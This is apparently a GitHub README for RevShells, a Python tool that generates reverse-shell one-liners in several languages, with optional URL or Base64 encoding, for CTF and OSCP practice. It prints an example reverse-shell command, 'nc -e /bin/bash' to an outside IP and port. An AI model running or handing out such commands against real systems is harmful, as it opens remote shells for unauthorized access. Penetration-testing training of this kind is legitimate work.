 # RevShells


RevShell is a Python-based tool that was built to have a variety of shells all in one place. This project was created to be used in CTFs and OSCP in mind. This tool allows users to choose from a list of reverse shells such as bash, netcat, ncat, lua, powershell, ruby, perl, java, and python. RevShells can encode with URL and Base64 encoding.

## Usage
  `python3 revshells.py -h`  
  will open a help menu, which will show you the needed syntax.

  ex:
      `python3 revshells.py -l or python3 revshells.py --list`  
  will give you a list of the shells that are available at the moment.   
        Once you see a shell you want, use -t or --type and the shell name to invoke it.
  
  `python3 revshells.py -i 1.1.1.1 -p 443 -t bash`  
    output: `nc -e /bin/bash 1.1.1.1 443`

 `--encode or -e` is entirely optional.  
 Your revshell will look like the above output if you do not use it.  
 URL encoding and base64 encoding were kept in mind and have been tested.
  
## Commands
    options:
    -h or --help: Display available commands and their functionalities.
    options:
    -i or --ip: your IP address
    -p or --port: your port 
    -t or --type: Shell type to generate
    -l or --list: List all available shell types
    -a or --all: Generate all shell types
    -e or  --encode: Encode payload (base64 or url) this one is optional.
                        


Installation Instructions

To use the Rev-Shell tool, follow these steps:  
Clone the Repository:

    git clone https://github.com/DelaDirty/RevShells.git  

Navigate to the Directory:

    cd RevShells



# Disclaimer
This tool is intended for educational and testing purposes only. Misuse of this tool for unauthorized access to systems or networks is strictly prohibited. The developers of this tool are not responsible for any illegal or unethical use of the tool







